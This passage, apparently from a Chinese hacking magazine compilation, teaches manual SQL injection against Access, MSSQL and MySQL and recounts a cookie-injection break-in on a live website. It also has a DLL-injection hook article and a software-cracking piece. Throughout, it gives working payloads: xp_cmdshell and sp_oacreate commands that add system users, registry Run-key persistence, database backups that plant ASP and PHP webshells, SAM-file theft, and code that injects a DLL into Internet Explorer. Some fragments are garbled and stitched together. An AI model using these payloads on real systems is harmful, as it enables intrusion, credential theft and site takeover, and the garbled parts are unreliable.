以上就是本文的全部内容。此后的工作，就是在那个驱动程序上下功夫了。市面上有很多讲述编写驱动程序的书，有兴趣做进一步研究的读者可以实来阅读，本文并不是编写真正的 rootkit。事实上，本文的技术含量离 rootkit 还很远。最后，附一张在虚拟机中执行后得到的蓝屏死机的图片（如图1），也算是为这篇文章增添些色彩。

图1

# SQL手工注入基础详解

——DragonEgg[MR]&[ESST]

暑假将至，期盼之余又复习了一下以前学习手工注入时做的笔记，想起以前苦学技术的日子真是感慨万千——别人在背英语句子时，而我在背数据库语句，同样都是英文，可怜咱的英语还是不及格呢？言归正传，虽然现在各种SQL注入工具层出不穷，但既然是工具就有出错的时候，并且有的工具并不适用于所有的数据库，有时我们也需要根据目标的情况来灵活的注入，所以学会手工注入是十分重要的，再次便将我的“手工注入学习笔记”分享与大家，老鸟可以飞过，如果有什么不正确的地方欢迎大家批评指正。
## 原理篇

动态脚本语言（如：asp、php、aspx、jsp等）在执行过程中，总要和数据库进行关联，根据带入的变量，来查询指定的数据，然后在用户的浏览器上显示出来，这当中就进行了一次数据库的查询行为，如图1所示即为查询所带入的变量。当这种对于数据库的行为被我们所控制时，就形成了SQL注入攻击。例如，这是一个正常的URL：“http://www.hack.cn/index.asp?ID=8”，将这个URL进行提交，并假设服务器将进行类似：select * from news where id="&ID的查询（news是表名，ID是提交的参数，本例即8），如果客户提交的是：“http://www.hack.cn/index.asp?ID=8 and user>0”，如果没有对我们提交的参数进行过滤，服务器就会执行：select * from news where id=8 and user>0 这样的查询，这样的语句肯定是执行不了的，就会报错，显示出错误的原因，即user的内容，如图2。
由此可以看出，注入攻击和数据库的关联要大于和脚本语言的关系。也就是例子中的对什么样的“相关人员”说什么话，对广东的就说广东话，对东北的就说东北话，提交的命令要让数据库能够看懂、执行。常用的数据库有以下几种：Acess、MSSQL、MySQL等，下面将分别进行讲解。（后记1）

## Access篇

用通俗些的例子讲。你是皇帝的传令官，天天都要传达皇帝的命令，有一次皇帝要你去问：今年的国库还有多少金子？（正常URL），你找到相关人员（数据库）问：“今年的国库还有多少金子，国库的密码是不是还在纪晓岚那里？（构造的URL）”相关人员很热心，给你指出错误：“国库的密码不在纪晓岚那里，在和珅那里。”你又跑去问和珅：“国库的密码是不是123？”和珅也很热心，给你指出错误：“不是，是321。（得到敏感数据）”然后你就可以去国库随便拿东西了。

### 一：注入点的判断

注入的原理前面已经讲过了，我们现在来实战。在判断一个带有参数的URL是不是一个注入点时，可以在URL的最后加一个单引号，即“'”，若是注入点，程序就会把“'”带入查询语句中执行，而语句中并没有另一个“'”与其闭合，程序就会报错，根据报错返回的信息，我们就可以判断数据库的类型，如图3，返回的信息里面有“Microsoft JET Database Engine”的字样，就依靠它来判断目标数据库为ACCESS数据库。我们也可以在URL后加一个分号：“；”或“--”来使目标报错，分号“；”是MSSQL数据库中用来分离两个语句的符号，“--”是MSSQL数据库中用来注释后面的语句的符号，而access遇到“；”或“--”时，因

重复)，exists()就为真，程序返回正常，若不存在的话，返回“0”，即为空集，exists()就为假，程序报错，改变“username”即可判断输入的列名是否存在，如图8，存在username这个列，通过以上的尝试，我们确定了admin这个表存在username，password，id这三个列。
猜解到了列之后我们接下来就是猜解列里的内容了，我们那admin表中的username里的内容演示如何猜解里面的内容。要猜解它的内容，就要先知道它里面内容的长度，要是内容很长的话，就要做好挑灯夜战的准备了，我们提交：http://www.****.cn/new.asp?id=1&aid=1 and (select top 1 len(username)from admin)> 6，返回的信息如图9，说明内容长度是不大于6的，即小于等于6，其中len()函数是判断输入的列名的内容的长度，而top 1表示username这个列的第一行内容。
我们再提交：“http://www.****.cn/new.asp?id=1&aid=1 and (select top 1 len(username) from admin)>3”，返回正常的信息，如图10。说明内容的长度是大于3的，在4和6之间，最后判断出第一条数据的长度为5。若要猜解第二条数据的长度，可以在top后面的“1”改成“2”来猜解，其他的依此类推。然后将username改成password进行猜解长度，猜出来的长度是16。

接下来就是判断具体的内容了，一般情况下，我们是用Mid(列名，N，1)来截取列名的第N位字符，再用ASC()函数将截取到的字符转换为ASCII码：ASCII码又叫美国信息标准码，可以将字母或符号转换为数字，如a的十进制ASCII码为97，我们猜解出来的是ASCII码的值，还需要对其进行转换。为了加快猜解速度，我们可以使用折半法进行猜解。

我们提交：“http://www.****.cn/new.asp?id=1&aid=1 and (select top 1 asc(mid(username,1,1)) from admin)>97”，返回错误，如图11，说明username第一位的ASCII码不大于97。我们来继续猜解，再来看看是不是大于60，返回正确，如图12。最后猜解出大于96又不大于97，说明username第一位的ASCII码为97，即是“a”。我们可以使用“ASCII及进制转换工具”进行转换，如图13。然后继续猜解第二位，提交：“http://www.****.cn/new.asp?id=1&aid=1 and (select top 1 asc(mid(username,2,1)) from admin)>97”。
通过千辛万苦的猜解和转换，我们猜解出username第一行的内容为“admin”，然后将username改成password进行猜解，最后就得到了目标的管理员的用户名和密码，而又是密码是经过加密的，我们无法直接使用。最常用的就是md5加密，md5加密算法是不可逆的，若猜解出的密码是16位或32位的数字和字母组成的话，八九成就是md5加密了，如图14。也有可能是管理员的密码本来就是16位或32位的数字和字母组成的，那就无语了。我们可以在下面几个网站将

作系统，因为是显错模式的，我们提交语句：http://www.***.org/newshowlistgo_new.asp?id=5' and 1=convert(int,@@version)--，即可返回我们需要的信息，如图18，从返回的信息我们可以清楚的判断出目标数据库的版本为MSSQL2000-8.00.2039，操作系统是Windows NT 5.0。
图18

还有要判断目标是否支持多语句执行，提交：http://www.***.org/newshowlistgo_new.asp?id=5' declare @d int--，如果返回正常，说明这个注入点是支持多语句执行的。

我们来看看在SA权限下执行系统命令。首先想到的是“xp_cmdshell”这个存储过程，先要判断这个过程是否存在，提交：http://www.***.org/newshowlistgo_new.asp?id=5' and 1=(select count(*) from master.dbo.sysobjects where xtype ='x' and name = 'xp_cmdshell')--，结果返回正常，如图19，这样就好办了，如果返回错误，可能是xp_cmdshell被删除，
图19

我们可以用以下语句恢复：http://www.***.org/newshowlistgo_new.asp?id=5';exec master.dbo.addextendedproc 'xp_cmdshell', 'xplog70.dll';select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'--，返回结果正常就是恢复成功。否则需上传xplog70.dll后执行：';exec master.dbo.sp_addextendedproc 'xp_cmdshell', 'c:\inetpub\web\xplog70.dll' ;-- 你的xplog70.dll传到哪里就写哪里。接着利用xp_cmdshell执行系统命令了，为了安全这里把端口情况显示在web路径下代替添加用户，提交：http://www.***.org/newshowlistgo_new.asp?id=5';exec master.xp_cmdshell 'netstat -an>>D:\chinagreenwood\netstat.txt'--，如图20，这里假设的是已经知道了web路径。
图20

如果返回错误的话，我们还可以利用SP_OACreate过程，提交：http://www.***.org/newshowlistgo_new.asp?id=5';declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user dragonegg 123456 /add'--，返回正常就是命令执行成功。然后就是连接3389或进行其它操作了。

然后我们再看看DB权限下如何操作。我们首先来试试xp_regwrite过程能不能用，在注入点执行：http://www.***.org/newshowlistgo_new.asp?id=5';exec master.xp_regwrite'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\CurrentVersion\Run','adduser','REG_SZ','net user DragonEgg 123456 /add'--，如果返回正常，我们就在目标服务器注册表启动项里加了一个添加用户的命令，只要让目标服务器重启即可，可以等它自己重启，也可以用DDOS让它重启（慎用）。

我们再看看备份数据获取webshell的方法。备份数据库前，我们要知道数据库名，提交：http://www.***.org/newshowlistgo_new.asp?id=5';and 1=convert(int,db_name())--，返回信息如图21，得到数

# 2011合订本上卷
查找目录辅助工具来查找目录，如图23。不对，有的时候，在加单引号时，会显示出WEB路径。得到WEB路径后，我们接下来就可以通过备份来获取webshell，或者备份VBS下载者到目标服务器的系统启动项目录里。目前最常用的有两种备份，分别为LOG备份和差异部分。而LOG备份比差异部分的成功率要高一些，因此大多数人使用LOG备份，LOG备份语句如下：

```sql
backup database master to disk='c:\temp\master.bak'
backup log china_greenwood to disk='c:\temp\backup.log'
create table cmd (a image)
insert into cmd values(0x...)
exec master..xp_cmdshell '...'
```

然后在获取网站的路径，语句如下：

```sql
drop table dan_gege
create table dan_gege (
  fn nvarchar(4000),
  d int,
  f int
)
declare @fn nvarchar(4000)
set @root=0x43003A00
insert into dan_gege exec master..xp_dirtree @root
update dan_gege set fn=... where ...
drop table dan_gege


```
结果如图22，大致思路是：建立一个dan_gege表，里面有fn、d、f三个列，再将列出的目录存到表里，然后在暴表里的内容，最后删除表。“0x”代表十六进制，“43003A00”是“C:\”的十六进制格式，只要将“43003A00”换成我们想要列的目录的十六进制格式就可以了。大家可以使用“MSSQL主工注入”工具。
上面语句中的“273C25657865637574652072657175657374285E22335E2229253E27”就是一句话：“'<%execute request("^3")%>'”的十六进制格式，注意是有单引号的，另外如果备份的数据库名里有特殊符号，如“-”就需要用[]将数据库名包含起来，然后访问1.asp，用一句话木马客户端连接就拿到了webshell。

既然能备份成asp格式，那么也就能备份成bat、vbs格式，将一句话的十六进制代码用VBS下载者的十六进制代码替换，把文件保存目录改为系统的启动项目录，如：“C:\Documents and Settings\All Users\「开始」菜单\程序\启动\1.vbs”，当服务器重启时，就能运行我们的文件了。最后再来看看PUBLIC权限下的注入。MSSQL在PUBLIC权限下和ACCESS一样，只能和表打交道了，不过在MSSQL下，若是有错误回显，我们便不用像access那样一个一个字的去猜了，我们可以将数据内容直接暴出来。下面介绍两种MSSQL暴数据的方法，名字是我自己想的不知道对不对。

## 1：错误回显法

确定目标是PUBLIC权限后，在URL后加上“having 1=1--”提交，返回的信息如图24。从回显的信息中我们可以看出类似“hyhdong.hyid”这样的字样，说明存在“hyhdong”这个表，表中有“hyid”这个列。那么怎么样获得其他列名呢？就要“group by”的配合了，我们提交如下语句：http://www.****.org/newshowlistgo_new.asp?id=5'group by hyhdong.hyid having 1=1--。
图24

返回信息如图25，从中可以看出又出现了一个“hy-title”列，继续提交：http://www.****.org/newshowlist-go_new.asp?id=5'group by hyhdong.hyid,hyhdong.hytitle having 1=1--就可以得到下一个列名，如图26。以此类推，直到程序报错，没有再回显出新的列名时，列名就全部暴出来了。然而这只是得到当前一个表的列名，那么其他表呢？我们要用到“information_schema”了。在程序中，若想要动态的得到某一个表的具体信息，就是用到了information_schema信息数据库，而它当中又包含了许多表，我们用到的只有两个：“information_schema.tables”和“information_schema.columns”。

我们提交语句：http://www.****.org/newshowl-istgo_new.asp?id=5'and 1=convert(int,(select top 1 table_name from information_schema.tables))--，

convert()函数是把日期转换为新的数据类型的通用函数，而查询出的表名是字符串，不是日期格式，程序就又报错了，并暴出第一个表，得到的信息如图27。，从返回的信息我们可以看到第一个表的表名为：“stycss”。我们继续找第二个，提交URL：http://www.****.org/newshowlistgo_new.asp?id=5'and 1=convert(int,(select top 1 table_name from information_schema.tables where table_name not in('stycss')))--。
图25
图26
图27

哈哈又出来一个，还是“admin”表，如图28。上面语句中的not in()函数是排除，不包括的意思，再去找第三个，提交：http://www.****.org/newshowlistgo_new.asp?id=5'and 1=convert(int,(select top 1 table_name from information_schema.tables where table_name not in('stycss','admin')))--。
图28

得到第三个表名，如图29。以此类推直到程序报错，接下来看看第二种方法：表就全部列出来了。现在来看看“admin”表，这个表是比较敏感的了，我们下一步就是得到这个表里的列名，怎么做呢？我们来提交：

```
http://www.****.org/newshow-listgo_new.asp?id=5'and 1=convert(int,(select top 1 column_name from information_schema.columns where table_name='admin'))--


```
得到返回的信息如图30。爆出了第二个列名，接着暴第二个，再次提交：

```
http://www.****.org/newshow-listgo_new.asp?id=5'and 1=convert(int,(select top 1 column_name from information_schema.columns where table_name='admin' where column_name not in('id')))--


```
第二个也出来了，如图31。然后就按照上面语句中not in()函数的格式暴出所有的列，其中就有“password”列。暴出我们想要的列，然后后就是暴列里面的内容，提交：http://www.****.org/newshowlistgo_new.asp?id=5'and 1=convert(int,(select top 1 password from admin))--。
## 2：默认系统表方法

在开始前我们先来认识下默认系统表——sysdatabases。sysdatabases是MSSQL默认系统表，包含“master”，“msdb”，“mssqlweb”，“empdb”，“model”这五个表，对应的dbid的值为1到5，用户新建的数据库从dbid=6开始。我们可以通过修改bdid的值来暴出库名，语句为：

```
http://www.****.org/newshowlistgo_new.asp?id=5'and 1=(select name from master.dbo.sysdatabases where dbid=6)--
```

最后在dbid=11时暴出我们需要的库名为：“chinagreenwood”，如图34。接着暴数据库中的表名，提交：

```
http://www.****.org/newshowlistgo_new.asp?id=5'and 1=(select top 1 name from chinagreenwood.dbo.sysobjects where xtype='U' and name not in('stycss'))--


```
暴出所有的表。
图35
图36

再下来就是暴表里的列了，用默认系统表法暴表里的列，需要利用目标表在数据库的ID值来获取表中的具体内容，提交的语句为：http://www.****.org/newshowlistgo_new.asp?id=5'and 1=(select count(*) from chinagreenwood.dbo.sysobjects where xtype='U' and name='admin' and uid>(str(id)))--, 暴出的ID值为“1977058079”，如图37。
图37

再根据这个ID值来获取列名，提交：http://www.****.org/newshowlistgo_new.asp?id=5'and 1=(select top 1 name from chinagreenwood.dbo.syscolumns where id=1977058079)-- 返回结果如图38所示，暴出了第一个列名：“admin”，再按下面的语句暴出第二个：http://www.****.org/newshowlistgo_new.asp?id=5'and 1=(select top 1 name from chinagreenwood.dbo.syscolumns where id=1977058079 and name not in('admin'))--, 如图39，再按照not in()函数的格式暴出所有的列，其中有“password”这个列。历尽千辛万苦，终于要见到胜利的输曙光了，我们立即去暴列的内容：http://www.****.org/newshowlistgo_new.asp?id=5'and 1=(select admin from chinagreenwood.dbo.admin where admin>1)--, 可能有点乱，上句语句中，有三个admin，第一个admin是列名，第二个是表名，第三个也是列名。暴出值还为“admin”，如图40。

汗一个，这管理员太懒了。然后我们再暴当“admin”列的值为“admin”时，“password”列的值，语句如：http://www.****.org/newshowlistgo_new.asp?id=5'and 1=(select admin from chinagreenwood.dbo.admin where admin='admin' and password>1)--, 如图41，暴出了当“admin”列的值为“admin”时，“password”列的值为“friends”。举一反三，要暴列内别的列的内容时，将“password”换成要暴的列名。到此为止，我们需要的东西就都出来了，但是我们找的注入点没有回显怎么办？大家别急，继续向下看。
图41

## 三、无错误回显的MSSQL

并不是所有的MSSQL注入点都有错误回显的，当大家在URL后输入类似的SQL语句，就会弹出对话框（不是那种防注入警告框）、转到另一个页面或只剩下基本的页面框架，不显示内容等，这就是碰到了无错误回显的MSSQL注入点，如图42。对于这样的注入点，多数情况下我们只剩下了一个办法，那就是“猜”，无错误回显的MSSQL注入点的“猜”也被称为盲注。怎么猜呢？就是利用前面ACCESS介绍的ASCII逐字猜解法去猜。这里给大家介绍另一种方法——时间差判断法（名字还是我想的,=！）
图42

时间差判断法就是利用IF判断语句结合时间差进行判断，根据反应的时间，来判断我们的语句是否成功执行。在URL后加上延迟执行语句，提交：http://www.***365.com/new_new.asp?id=166;waitfor delay '0:0:5'--, 提交后会发现刷新的时间明显会慢些，因为“waitfor delay '0:0:5'”的意思是延迟5秒再执行SQL语句，由此判断出我们的语句被成功带入SQL语句中执行，这意味着我们可以继续

# 手工注入与Cookie注入实战

php/*，如果返回正常，我们就把一句话“<?php eval($_POST['c'])?>”写入了1.php中，其中“3C3F706...616C28245F504F53545B...”是一句话的16进制，例如把14和13换成“username”和“password”，还要进行格式化。“\\www\\edu\\1.php”是WEB路径十二句话的文件名。可惜，我这里是Windows NT的服务器，没法截图。

```
http://www.****.cn/y_news.php?id=1806 and (select count(*) from mysql.user)>0/*
```

这返回正常的话，说明有该文件权限，如图46（换了一个注入点）。我们来判断出目标的操作系统，提交：

```
http://www.****.cn/y_news.php?id=1806 and 1=2 union select 14,13,12,11,10,(@@version_compile_os),8,7,6,5,4,3,2,1/*


```
如图47，从图显可以看出，是WIN32系统，我们可以暴服务器的“c:\\windows\\repair\\sam”文件，但注意要用hex()函数转换下来，不然编辑器无法直接读取，提交的语句为：

```
http://www.****.cn/y_news.php?id=1806 and 1=2 union select 14,13,12,11,10,hex(load_file(0x633A2F777...)),8,7,6,5,4,3,2,1/*


```

如图48，然后用16进制编辑器加载16进制代码，另存为sam文件，再用lc5破解。若服务器开了135/445、3389的话，就可以直接连上去了。
再来看看版本>5.0的情况下的注入。5.0以上版本中提供了一个新的变量，那就是“@@datadir”，利用这个变量就可以暴出数据库的路径，我们在14处暴路径，如图50。

```
http://bwc.****.edu.cn/index_news.php?id=127 and 1=2 union select 15,schema_name,13,12,11,10,9,8,7,6,5,4,3,2,1 from information_schema.schemata limit 1,1/*


```
如图51，想要得到其它的数据库名，就把“limit 1,1”的第一个“1”改成相应的数字就可以，如第二个“1”，就是limit 2,1。得到了库名，接下来爆表名，如暴“bwc”库的表名，提交：
```
php?id=127 and 1=2 union select 15,table_name,13,12,11,10,9,8,7,6,5,4,3,2,1 from information_schema.tables where table_schema=0x627763 limit 1,1/*
```

如图52，得到第一个表名：“user”。再察user表中的列名，提交：

```
php?id=127 and 1=2 union select 15,column_name,13,12,11,10,9,8,7,6,5,4,3,2,1 from information_schema.columns where table_schema=0x75736572 limit 1,1/*


```

如图53，最后我们知道了表名和列名，就可以用上面的方法索引里面的内容了。

通过前面的学习，我们可以看出，如果access数据库主要是靠“猜”，MSSQL数据库主要是靠“暴”和MSSQL数据库中遇到字符型注入点时，因为它们都有各自的注释符，我们可以先加一个单引号，再加注入内容，最后加上各自的注释符来注入。

到此，我们的手工注入基础知识就讲完了，并且在我们的文章中几乎没有用到什么工具（ASCI字符和查找目录语句可以背下来）。如果大家能够熟练的掌握好手注的话，会发现手注其实比用工具更有趣的多。在我们解决手注时遇到的各种问题时的感觉是非常爽的，所以提醒大家要能多熟练的掌握好手注。还有非法入侵他人的计算机是违法行为，请大家不要将学到的知识用于非法用途，这样只会害人害己。

### 总结

- 1. 其它的数据库还有：DB2、Oracle等。
- 2. 因为主要是基础的手工注入文章，便没有提及“文本框搜索型注入”、“cookie注入”和“http头注入”（其实最常见很忙，粗略现找了一下注入点，没有找到，惭愧……）。数据的提交类型还有：get、post以及cookies。每一种提交方式都可以形成注入攻击，有兴趣的可以查一下相关资料。
- 3. 有时也可以用UNION联合查询来暴库，不过在这才听说，还在学习中不怎么熟悉，就不献丑了，来张图证明吧，如图54。下面有些资料大家可以看看，感谢好友UWh4x0r提供的资料：http://msdn.microsoft.com/zh-cn/library/bb208962(en-us,office.12).aspx。

# 手工cookie注入拿到管理员权限

Azone<N.S.T>

最近在暗组论坛闲逛，看到有人发了一个标题为：某某站的安全检测。进去一看，只发了一个渗透成功的页面，下面的跟帖中也有几个人渗透进去了，不过都没有过程。于是我也跟着试一下，渗透时也把过程给写了出来！

首先，进入该网站“http://www.xxx.com”，一看是asp的，注入点测试，弹出一个界面，如图1：
看来有进行sql注入过滤了，不过这种一般只是过滤了get和post注入，并没有过滤cookie注入。直接手工检测吧。。。不用工具，我都快成了工具党了。

打开一个链接，http://www.xxx.com/shownews.asp?id=137，然后将“?id=137”去掉，显示没有新闻，如图2：
然后在地址栏里面输入：

```
`javascript:alert(document.cookie="id="+escape("137 and 1=1"));`
```

返回有新闻的正常页面，接着输入：

```
`javascript:alert(document.cookie="id="+escape("137 and 1=2"));`
```

返回无新闻页面，显然，存在了注入漏洞。

于是开始了一步一步的猜解，猜解过程比较繁琐，但是也复习了以前一些注入知识。过程如下：

猜表名：

```
`javascript:alert(document.cookie="id="+escape("137 and (select count(*) from admin)>0"));`
```

猜字段名：

```
`javascript:alert(document.cookie="id="+escape("137 and (select count(password) from admin)>0"));`
```

```
`javascript:alert(document.cookie="id="+escape("137 and (select count(username) from admin)>0"));`
```

爆出字段长：

```
`javascript:alert(document.cookie="id="+escape("137 order by 10"));`
```

本来想直接用union爆出管理员名和密码，结果只爆出管理员名字。

```
`javascript:alert(document.cookie="id="+escape("137 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin"));`
```

那么密码就只能逐字猜解咯。。。

```
`javascript:alert(document.cookie="id="+escape("137 and (select top 1 asc(mid(password,1,1)) from admin)>97"));`


```

......

一步一步，最后得到的结果是：6f9531847428f714；接下来就破解了。。。然后登录后台：

http://www.xxx.com/admin/Login.asp

发现后台可以拿shell的方法蛮多的。挑了一个最简单的，如图3：
里面已经被别人增加了cer，我就直接传个cer格式的木马了，过程，你懂的！

然后留下一个小小的纪念，如图4：
小小的总结一下这次的渗透吧：这次渗透，有点心急，不够细心，结果犯了两个小错误，猜密码时中间的一个值等得太快，导致猜错还不知道，结果原地徘徊很久。还有一个比较致命的，就是没有先猜出后台登录页面，因为一些后台登录页面被管理员藏得很好，假如账号和密码都拿到了，却发现找不到登录页面，那就真的叫都跑！！！

# 一份关于 Windows 钩子（Hook）的深入研究

说起钩子（Hook），相信不少初涉 Win32 编程的人会感觉迷惑。的确，钩子编程能算是 Win32 编程中较为高级的程序无法通过任务管理器终止，这也可以通过在系统中设置主题。如果读者明白回调（Callback）函数的含义，那就不难明白钩子的概念。钩子就是这样一种东西，它通过向 Win32 系统注册一个用于回调的钩子函数（hook procedure），使程序能够在 Windows 发生某些事件并需要传递消息的时候，首先调用钩子函数并传递消息给它。通常钩子函数会对消息进行一番处理之后，再将消息传递到目的应用程序。

具体的钩子函数感兴趣的消息类型取决于钩子的类型。常见的类型如 WH_KEYBOARD、WH_MOUSE 等等，分别表示键盘消息钩子和鼠标消息钩子。本文的读者对象被假定为对 Win32 程序设计有一定的了解，所以关于钩子类型的更多说明，请对此不太了解的读者自行参阅相关资料。此外，钩子还有全局钩子和局部钩子的区分。顾名思义，全局钩子可以对全局范围内的消息进行检测，而局部钩子的“关心”范围只被限制在一个进程（如图1）。
```c
#define DLL_PROCESS_ATTACH 1
#define DLL_THREAD_ATTACH 2
#define DLL_THREAD_DETACH 3
#define DLL_PROCESS_DETACH 0
```

首先，读者需要明白 DLL 编程，究竟是操作系统将在何时调用 DllMain() 函数以及在实际情况下给于它正确的参数值。就当前的情况而言，fdwReason 的取值同于实际情况。

考虑一个将调用某 DLL 的拥有主线程和另一个新线程的程序的加载过程。首先，当这个程序被执行时，系统首先将以 DLL_PROCESS_ATTACH 的原因为调用 DllMain()，接着第一个线程被创建了。此时，DllMain() 将被以 DLL_THREAD_ATTACH 的原因为调用。然后，刚刚创建的线程完成了自己的工作，将要结束了。此时，DllMain() 将再一次被调用，不过这次的调用原因为指定为 DLL_THREAD_DETACH。一会儿，程序也执行完毕，进程即将退出。此时，DllMain() 最后将以 DLL_PROCESS_DETACH 的原因为调用。以上所描述的就是典型的 fdwReason 的取值同于实际情况。

钩子的通常用法便是对消息进行过滤。比如最初的某些键盘记录程序，盗取 QQ 账号密码的程序，带有键盘监探功能的木马，往往是通过设置键盘钩子完成的。还有些程序会通过设置钩子来实现窗口消息的拦截和处理。

dowsHookEx()成功后，我们就向操作系统注册了我们的全局钩子。在示例中，我们向系统注册的是一个全局钩子。

然后我们考察一下当操作系统发现了我们的钩子感兴趣的消息的时候的动作。要知道，注册钩子函数的时候，我们提供的钩子函数地址以及钩子函数所在链接库的实例句柄都是与本进程相关的。而运行于保护模式下的进程们的内存空间是彼此隔离的。当系统要调用我们的钩子函数处理发往另一个进程的消息时，会是怎么样做的呢？系统首先会将我们的钩子函数所在的链接库映射到另一个进程的地址空间，然后计算钩子函数的地址，并调用之。关键就在于操作系统会将我们的链接库映射到另一个进程中去。正如上面对DllMain()调用时机的讨论中指出的那样，映射的过程中包含以DLL_PROCESS_ATTACH的原因调用DllMain()的关键步骤。映射后，我们的链接库算是目标进程的一个模块了。换言之，至此，我们的DLL已经注入到了目标进程中。

接下来的所有问题都将归结到DLL的设计上了。有一个问题我还没有说明，即我们的DLL是被动调用的。如何通过编程，可以实时判断出加载我们的DLL的进程并作出不同的行为呢？以下展示的是本文的示例代码，在代码中给出了答案。这样处理的结果是，我们的代码就可以有完全的针对性了。

```c
#include <windows.h>

#include <tlhelp32.h>

#pragma comment(lib,"kernel32.lib")

#pragma comment(lib,"user32.lib")

typedef int (*STRCMP)(const char *s1,const char *s2);

DWORD WINAPI aThreadProc(LPVOID lpParameter);

LRESULT CALLBACK foo(int nCode,WPARAM wParam,LPARAM lParam){

    return 0;

}

BOOL WINAPI DllMain(HINSTANCE hInstance,

    DWORD fdwReason,

    LPVOID lpReserved){

    if(fdwReason==DLL_PROCESS_ATTACH)

    {

        CreateThread(NULL,0,(LPTHREAD_START_ROUTINE)aThreadProc,0,0,NULL);

    }
```

```c
    return TRUE;

}

DWORD WINAPI aThreadProc(LPVOID lpParameter)

{

    HANDLE hProcessSnapshot;

    MODULEENTRY32 me;

    STRCMP strcmp;

    hProcessSnapshot=CreateToolhelp32Snapshot(TH32CS_SNAPMODULE,

    GetCurrentProcessId());

    me.dwSize=sizeof(MODULEENTRY32);

    Module32First(hProcessSnapshot,&me);

    strcmp=(STRCMP)GetProcAddress(LoadLibrary("msvcrt.dll"),"strcmp");

    if(!strcmp(me.szModule,"iexplore.exe"))

    {

        MessageBox(NULL,me.szModule,"ModuleName",MB_OK);

    }

    return 0;

}
```

让我们详细地分析一下这个程序。

首先是foo()函数。正如读者所见，这个函数实际上什么也不做。它只是一个占位函数，因为我们在设置钩子的时候需要一个钩子函数，而钩子函数自有其特定的格式，所以虽然这个函数没有实际用处，但却是必须的。

接下来就进入了DllMain()，这里我们首先对调用原因进行判定。因为我们的程序的目的是注入目标进程，所以只在链接库第一次被进程加载的时候执行就可以了。接下来我们创建了一个新的线程用于执行函数的主要代码。有些读者可能会问为什么我们不把程序的主要代码放到DllMain()里面呢？这是因为如果在DllMain()中设置太多的代码而不及时返回，在程序运行时候就会观察到明显的卡顿现象。（我曾猜测，通常说的当计算机感染病毒以后运行速度明显变慢，而且经常死机的现象与此有关。）为了使一切显得依旧正常，我们将主要代码放在了别处，而让DllMain()及时返回。

然后我们研究一下线程函数aThreadProc()。线程函数中最主要的功能是判断加载DLL的进程的名称。首先，我们使用CreateToolhelp32Snapshot()获得了当前进程的模块快照句柄。因为在执行快照函数的时候，我们的DLL已经在目标进程的地址空间中了，所以这里GetCurrentProcessId()执行后得到的是目标进程的PID。接着我们使用Module32First()获得模块快照中的第一个模块的信息。这里用的到一点额外的知识是第一个模块的名字通常是就是主程序的名字，而进程的名字通常也就是主程序的名字。所以这里我们通过查看第一个模块的名字，进而间接的获得进程的名字。Module32First()函数使用的MODULEENTRY32结构中包含了很多有用的字段，但这里我们只使用到szModule，这便是模块的名字。

接着我们动态加载msvcrt.dll并从其中获得了strcmp()函数的地址，接着用它比较szModule是否与iexplore.exe相同。在示例代码中，我们要注入的目标是Internet Explorer，所以这里指定的是iexplore.exe。这里可以自由替换为其他的名字，以应读者自己的要求，注入不同的目标。

最后，在示例代码中，当我们发现了iexplore.exe后，只是简单的弹出了一个MessageBox显示一下进程名字而已。在实际的项目中，if语句中包含的，将是全部用于注入后做进一步处理的代码。因为这只是个示例，所以我们不做别的，只弹出一个小窗口了事。

将以上代码编译为一个动态链接库文件的过程因为很是简单，所以就不再赘述了，但是要提醒的一点是，链接时需要将符号foo导出。至此，主要的工作已经完成。接下来测试一下，使用如下测试代码：

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(lib,"kernel32.lib")
#pragma comment(lib,"user32.lib")
int main(int argc,char** argv){
    HMODULE hHookdll;
    HOOKPROC foo;
    DWORD hookid;
    hHookdll=LoadLibraryA(".\\mydll.dll");
    foo=(HOOKPROC)
GetProcAddress(hHookdll,"foo");
```

```c
hookid=SetWindowsHookExA(WH_
KEYBOARD,foo,hHookdll,0);
    Sleep(30*1000);
    UnhookWindowsHookEx(hookid);
    return 1;
}


```

这个程序将加载上一步生成的mydll.dll文件，获得foo()的地址，并设置钩子，然后延时一段时间。之所以这样做，是为了我们实际考察程序的执行效果。三十秒的时间后，程序将钩子卸载，一切又将恢复正常。在运行测试程序的时候，应确保其与mydll.dll位于同一个目录。

预期的计划是，在钩子有效期间，运行其他程序没有任何异常，而运行Internet Explorer时，在按下任意按键后（因为我们设置的是键盘钩子），会弹出一个MessageBox提示iexplore.exe（如图2）。
图2

至此，我们已经完成了全部的工作。简单做一点总结吧，我们首先是利用了钩子函数的加载过程，将自己的链接库加载到了其他的进程空间中。我们知道当链接库被加载的时候，DllMain()函数会自动执行。通过巧妙的设计DllMain()的代码，我们实现了在其他进程空间中执行任意代码的方法。

本文所描述的方法，只是一种常见技术的巧妙的应用。它一反常态，将钩子函数的加载过程巧妙地与进程注入结合起来。我想，明白钩子函数的加载过程的人有很多，但能想到这种思路的人却相对较少。这给我们的启示是什么呢？回答是因人而异的，但就我自己而言，从中学到的一点即：创新的实践是来自于创新的想法的。

（文章中所涉及到的代码已经收录在光盘中）

# 破解秘笈

## CrackMe软件保护的破解

软件注册的种类多种多样，我在《黑客破解精通》一位盟，起始代码如下所示。书中也将流行的软件保护方法以及常用的破解手段进行了总结以及实例演示，这本书由黑客文档案发行，应该快出版了，喜欢软件破解的朋友可以关注一下。
软件保护中最常见以及最容易下手的破解保护方式，就是数有注册按钮而且是 F（序列号）=F（用户名）这类算法了。比较难对付的破解保护方式，就要数有注册按钮而且是 F（序列号）=F（用户名）这类算法了。

```
00425F64  /  75  /  PUSH EBP
00425F65  /  8BEC  /  MOV EBP,ESP
00425F67  /  83C4 F8  /  ADD ESP,-08
00425F6A  /  53  /  PUSH EBX
00425F6B  /  56  /  PUSH ESI
00425F6C  /  57  /  PUSH EDI
```

我们在段首00425F64按F2下断点，然后按F9运行程序。当我输入key注册、硬件注册以及发现程序中断在了我们设置断点的位置，下面我们就来修改了。

```
PUSH 00425C92
PUSH 00425CD4
MOV EDX,00425C8C
MOV EDX,004261A4
MOV EDX,0042633B


```

已经实现，我们将代码JE SHORT crackme.0042615F修改为JMP即可。修改完毕代码后我们保存程序，运行，重新输入1，结果正确的时候才会弹出注册成功的提示，或者直接进入注册界面。

